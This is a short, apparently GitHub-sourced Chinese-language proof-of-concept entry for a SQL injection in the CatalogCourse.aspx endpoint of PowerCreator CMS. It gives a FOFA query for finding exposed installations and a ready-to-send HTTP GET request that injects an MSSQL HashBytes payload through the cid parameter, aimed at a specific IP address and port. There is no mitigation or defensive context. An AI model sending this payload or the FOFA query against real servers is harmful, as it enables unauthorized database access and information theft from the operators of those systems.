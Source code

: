 ## PowerCreator接口CatalogCourse.aspx存在sql注入漏洞

PowerCreator接口 CatalogCourse.aspx存在任意文件sql注入漏洞。攻击者可利用该漏洞获取服务器上的信息。

## fofa

```yaml
app="PowerCreator-CMS"
```

![image](https://github.com/user-attachments/assets/fcc5c0c8-6a56-42a0-9aba-0d65b1d63a56)

## poc

```yaml
GET /CatalogCourse.aspx?cid=1%0Cand%0C1=sys.fn_sqlvarbasetostr(HashBytes(%27MD5%27,%27123456%27))-- HTTP/1.1
Host: 221.199.170.130:88
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://221.199.170.130:88/StandardPlatform/Default.aspx
Cookie: ASP.NET_SessionId=l2wuj2tri5e554020jeezoyw; language=simpleChineses
Pragma: no-cache
Cache-Control: no-cache


```
